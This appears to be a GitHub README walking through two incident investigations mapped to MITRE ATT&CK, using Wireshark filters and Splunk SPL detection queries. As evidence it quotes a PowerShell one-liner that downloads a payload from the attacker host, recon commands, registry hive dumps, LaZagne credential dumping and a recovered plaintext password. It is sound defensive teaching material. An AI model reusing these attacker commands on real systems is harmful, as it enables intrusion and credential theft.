Readme · MD
# MITRE ATT&CK Walkthrough — Two Incident Case Studies
 
This repository documents two independent security investigations, each analyzed end-to-end and mapped against the **MITRE ATT&CK Enterprise Matrix**. The goal is to walk through real adversary behavior — from initial scanning to final impact — technique by technique, using the actual evidence trail (packet captures and SIEM logs) rather than a checklist of definitions.
 
**Tools used:** Wireshark, Splunk (Sysmon/Windows Event Logs), CyberChef, VirusTotal, AbuseIPDB.
 
Each case study below tells the attack as a chronological story. Every step names the ATT&CK technique it maps to, explains what it does in one line, and walks through what the evidence actually showed.
 
---
 
## Case Study 1 — Network Intrusion (Packet Capture Analysis)
 
**Environment:** `192.168.1.0/24`, attacker at `192.168.1.212`, victim workstation `DESKTOP-SALES` (`192.168.1.104`). Analyzed entirely from Wireshark packet captures.
 
An attacker scans the internal network to find live hosts and open services, then uses a stolen local account to push a renamed PsExec binary onto a workstation over SMB, using it to read sensitive files and create a persistence-friendly Windows service. Later, the same attacker infrastructure exfiltrates a password file by hiding it inside DNS queries.
 
### 1. Discovery — Network Service Scanning (`T1046`)
*Sweeps the network for live hosts and open ports before deciding where to go next.*
 
The attacker (`192.168.1.212`) opened its first SYN packet at **2024-02-02 14:40:36 UTC**, probing four internal hosts (`.101`–`.104`) across 20 distinct ports. The first SYN/ACK response — confirming an open port — landed on packet #26, from `.104:3389`, meaning RDP was listening. A second RDP hit came back from `.102`. Every other connection attempt was immediately closed with a RST, the classic signature of a fast TCP connect scan rather than a stealth SYN scan.
 
**Query used (Wireshark display filter):**
```
(tcp.flags == 0x0012) && (ip.dst == 192.168.1.212)
```
`0x0012` is the SYN+ACK flag combination, and filtering on `ip.dst` to the attacker's own address isolates only the packets coming *back* to it — in other words, only the ports that actually answered, cutting out the noise of every SYN the scanner fired.
 




### 2. Lateral Movement — SMB/Windows Admin Shares & Service Execution (`T1021.002`, `T1569.002`)


*Uses a valid account to push a tool over SMB and run it as a Windows service.*
 
Using the account `kporter`, the attacker authenticated to `DESKTOP-SALES` over SMB, connected to the `ADMIN$` share, and dropped a binary named `googleupdate.exe`. Before writing it, the attacker read three text files off the host (`Maple.txt`, `Orbis.txt`, `Zakum.txt`) that turned out to contain PII — names, job titles, phone numbers, and a credit card number in plaintext. The dropped binary's hash matched VirusTotal's `psexesvc.exe` signature (`trojan.psexec`) — this is PsExec's service component, confirming the attacker used PsExec-style remote service creation to get code execution.
 
**Query used (Wireshark):** display filter `smb2`, plus **File → Export Objects → SMB**.
The `smb2` filter strips the capture down to just that protocol's traffic; Export Objects then reconstructs every file that crossed the wire over it (the PII text files and `googleupdate.exe` itself) as ready-to-save objects, without manually stitching TCP segments back together.
 




### 3. Exfiltration — Exfiltration Over Alternative Protocol / DNS Tunneling (`T1048.003`)

*Smuggles stolen data out inside DNS queries, a channel that's rarely inspected closely.*
 
At **2024-02-03 16:22:08 UTC**, the victim host sent a DNS query whose name was really a hex-encoded payload rather than a real domain. Decoding it in CyberChef revealed the contents of a file called `passwords.txt`, including the plaintext password `My_P@ssw0rd_!$_$uP3r_$3cUR3`. The two IPs involved in the exchange came back clean on AbuseIPDB (one Google, one Bell Canada ISP), meaning the DNS tunnel itself — not a flagged malicious IP — was the actual exfiltration mechanism.
 
**Query used (Wireshark):** display filter `ip.addr == 192.168.100.101`, then right-click a DNS packet → **Follow → UDP Stream**.
The IP filter narrows the capture down to the one host acting as the DNS resolver in this exchange; Follow UDP Stream then reassembles the full query-and-response pair so the encoded hex string can be copied out whole and dropped straight into CyberChef.
 


---
 
## Case Study 2 — Full Compromise (Sysmon / Splunk Analysis)
 
**Environment:** `MYDFIR.local` domain, workstation `DESKTOP-J78SBRN`, domain controller `MyADDC`, attacker source `192.168.100.181`. Analyzed entirely from Sysmon and Windows Event Logs ingested into Splunk.
 
This is a complete kill chain on a single workstation: the attacker brute-forces a login, escalates to a privileged account, moves in over RDP, blinds Windows Defender, downloads and runs a payload, opens a C2 channel, sets up persistence, maps out the local environment and domain, dumps credentials, archives what was found, exfiltrates it to cloud storage, and finishes by dropping a fake ransomware binary.
 
### 1. Credential Access — Brute Force (`T1110`)

*Repeatedly guesses usernames/passwords until one works.*
 
Starting at **14:12:41 UTC**, `192.168.100.181` hammered `DESKTOP-J78SBRN` with failed logon attempts (EventCode 4625) — 99 failures across 18 distinct usernames in under two minutes, far too fast to be a human typing. Two accounts succeeded: **Administrator** at 14:13:01 and **sm** at 14:20:29. This is the entry point for everything that follows.
 
**Query used (SPL):**
```spl
index=mitre EventCode=4625
| stats values(user) dc(user) count by _time, ComputerName, src_ip
```
Groups failed logons (4625) by time, host, and source IP. The important part is `dc(user)` — a distinct count — which is what actually proves this is a spray rather than one person fat-fingering a password: 18 different usernames attempted in a matter of seconds from one source.
 



### 2. Privilege Escalation — Valid Accounts: Domain Accounts (`T1078.002`)

*Uses a legitimate (in this case, brute-forced) account instead of an exploit to gain elevated access.*
 
The successful Administrator logon at 14:13:01 came with an **elevated token** over logon types 3 (network) and 10 (RDP), sourced from the same attacker IP. No exploit was needed — the account itself already carried the privileges the attacker wanted, which is exactly what makes "Valid Accounts" hard to catch with signature-based tools.
 
**Query used (SPL):**
```spl
index=mitre EventCode=4624 user!=DWM-* user!=UMFD-* user!=*$ user!=SYSTEM
  user!="LOCAL SERVICE" user!="NETWORK SERVICE" 192.168.100.181
| stats count by user
```
Pulls successful logons (4624) from the attacker IP only, then strips out the Windows noise accounts (desktop window manager, font driver host, machine accounts, service accounts) that would otherwise flood a raw 4624 search — leaving just the real human-facing account that logged in.
 


### 3. Lateral Movement — Remote Desktop Protocol (`T1021.001`)

*Rides a legitimate remote-access protocol to reach another machine.*
 
The first RDP session (logon type 10) from `192.168.100.181` landed at **14:17:22 UTC**. Later, the same Administrator account was seen unlocking a session on the domain controller `MyADDC` at 16:44:01 (logon type 7), sourced from `192.168.100.190` — a different internal IP than the original entry point, suggesting the attacker pivoted from the compromised workstation itself rather than reconnecting from outside.
 
**Query used (SPL):**
```spl
index=mitre EventCode=4624 Logon_Process=User32 user!=*$
  Source_Network_Address!=127.0.0.1 Source_Network_Address!=192.168.5.5
| stats count by user, ComputerName, Source_Network_Address, Logon_Type
```
`Logon_Process=User32` is the specific field Windows sets on interactive/RDP-style logons (as opposed to network authentication like SMB), so filtering on it isolates genuine remote-desktop sessions from the much larger pool of general 4624 events.
 


### 4. Defense Evasion — Impair Defenses: Disable or Modify Tools (`T1562.001`)

*Weakens or blinds security tooling so later actions go unnoticed.*
 
At **15:05:14 UTC**, a Windows Defender configuration-change event fired, adding `C:\Windows` as a scan exclusion. From that point on, everything the attacker dropped into `C:\Windows\Temp` — eighteen files in total, including the payload, a recon script, a network scanner, an archiver, and a cloud-sync client — was invisible to Defender by design.
 
**Queries used (SPL):**
```spl
index=mitre EventCode=5007
```
```spl
index=mitre DESKTOP-J78SBRN C:\windows EventID=11 user=Administrator TargetFilename=C:\Windows\*
```
5007 is Defender's own "configuration changed" event — the fastest way to catch an exclusion being added. The second query then pivots to Sysmon's file-creation event (11) scoped to the newly-excluded path, which is what surfaces the full 18-file list the attacker dropped there afterward.
 



### 5. Execution — Command and Scripting Interpreter: PowerShell (`T1059.001`)

*Runs attacker code through PowerShell, often obfuscated to dodge simple detection.*
 
At **15:17:11 UTC**, an obfuscated (`-encodedCommand`) PowerShell process launched from `C:\Users\Administrator`. Decoding the Base64/UTF-16LE blob in CyberChef revealed a one-liner: `(New-Object System.Net.WebClient).DownloadFile("http://192.168.100.181:9999/svchost.exe","C:\Windows\Temp\svchost.exe")`. Because the exclusion from the previous step was already active, Defender never touched the download. The resulting file's SHA256 was `B61CD14AF2698F5AE513539340662C4D8C2D8E05CD83F05669AE76EA1EC98C17`.
 
**Query used (SPL):**
```spl
index=mitre EventID=1
| table _time, ParentImage, ParentCommandLine, Image, CommandLine
| sort +_time
```
A plain process-creation timeline with no filtering beyond the event ID — deliberately broad, so the parent→child chain (`explorer.exe` → `powershell.exe` → later `reg.exe`/`lsass.exe`) reads as one continuous table instead of being pieced together from scattered raw events. The `-encodedCommand` flag in the `CommandLine` column is what flags the row as worth decoding.
 
### 6. Command and Control — Application Layer Protocol / Non-Standard Port (`T1071.001` / `T1571`)

*Keeps a channel open back to the attacker to receive further instructions.*
 
The dropped `svchost.exe` called home to `192.168.100.181:8888` twice — first at **15:17:27 UTC**, right after execution, and again at 16:38:31. Port 8888 isn't a standard web port, so the beacon stands out clearly once traffic is filtered by the malicious binary's path rather than by port alone.
 
**Query used (SPL):**
```spl
index=mitre EventID=3 Initiated=true
  Image=C:\Windows\Temp\svchost.exe OR Image=C:\Windows\Temp\netscan.exe
  OR Image=C:\Users\Administrator\AppData\Local\MEGAcmd\MEGAcmdServer.exe
| stats count by _time, Image, SourceIp, SourcePort, DestinationIp, DestinationPort, Initiated
```
EventID 3 is Sysmon's network-connection log. Rather than filtering by port (which would miss anything not already suspected), this targets the specific attacker-planted binaries already flagged from earlier steps — which is what cuts straight through legitimate outbound noise like Edge and Defender's own update traffic.
 


### 7. Persistence — Boot or Logon Autostart Execution: Registry Run Keys (`T1547.001`)

*Makes sure the payload keeps running even after a reboot or logoff.*
 
At **15:25:10 UTC**, `reg.exe` added a value named `Updates` under `HKCU\...\CurrentVersion\Run`, pointing at the same `svchost.exe` dropped a few minutes earlier. Because it's written to HKCU rather than HKLM, it fires every time the Administrator account logs back in — persistence without needing SYSTEM-level access.
 
**Query used (SPL):**
```spl
index=mitre EventID=13 run
| table _time, registry_value_data, registry_value_name, registry_path
| sort +_time
```
EventID 13 is Sysmon's registry-value-set event. Narrowing the table to just the value name, data, and path makes the malicious `Updates` entry easy to spot sitting right next to legitimate Run-key noise like Edge's own auto-launch entry.
 


### 8. Discovery — Local & Domain Recon via Batch Script (`T1033` / `T1087` / `T1069` / `T1082`, tagged `T1018`)

*Maps out who the attacker is, what the box can see, and what the domain looks like.*
 
A dropped script, `d.bat`, ran six commands back to back starting at **15:35:52 UTC**: `whoami`, `net user`, `net user /domain`, `whoami /all`, `net group "Domain Admins" /domain`, and `systeminfo`. In one pass, the attacker learned the current user's privileges, every local and domain account, who's in Domain Admins, and the full OS/hardware profile of the box — everything needed to plan the next move.
 
**Query used (SPL):**
```spl
index=mitre d.bat EventID=1
| table TimeCreated, user, Computer, ParentImage, ParentCommandLine, Image, CommandLine
| sort +TimeCreated
```
Filtering process-creation events to only those spawned under `d.bat`, then sorting by time, reconstructs the exact sequence the recon commands ran in — which matters for telling the story of what the attacker learned, and in what order.
 


### 9. Credential Access — OS Credential Dumping: LSASS / SAM (`T1003.001`, `T1003.002`)

*Pulls stored credentials directly out of memory or the registry.*
 
At **15:52:22 UTC**, a binary renamed to masquerade as `lsass.exe` (sitting in `C:\Windows\`, not the real System32 path) was launched with the argument `browsers` and immediately requested `PROCESS_ALL_ACCESS` against the legitimate LSASS process. It then ran `reg.exe save` against the SAM, SECURITY, and SYSTEM hives. VirusTotal confirmed the file (53/71 detections) as **LaZagne**, a well-known open-source credential-harvesting tool, renamed to blend in.
 
**Queries used (SPL):**
```spl
index=mitre C:\Windows\lsass.exe EventID=1
| stats count by _time, CurrentDirectory, ParentImage, ParentCommandLine, Image, CommandLine
```
```spl
index=mitre EventID=10 lsass.exe
| stats count by _time, Computer, GrantedAccess, SourceUser, SourceImage, TargetImage
```
The first traces execution of the fake `lsass.exe` binary itself, using its file path (not the process name) since that's what actually distinguishes it from the real one. The second leans on Sysmon's process-access event (10) to catch it reaching into the *genuine* LSASS process — `GrantedAccess: 0x1fffff` is the field that reveals it asked for full, unrestricted access.
 


### 10. Collection — Archive Collected Data via Utility (`T1560.001`)

*Bundles up what was gathered so it's ready to move out in one piece.*
 
At **16:33:30 UTC**, a copy of the legitimate `7za.exe` (7-Zip), also sitting in `C:\Windows\Temp`, ran `7za.exe a file.zip ips.xml` — packaging up the output of the network scan (see the Defense Evasion file-drop list above, which includes `netscan.exe` and `netscan.xml`) into a single archive.
 
**Query used (SPL):**
```spl
index=mitre ips.xml EventID=1
```
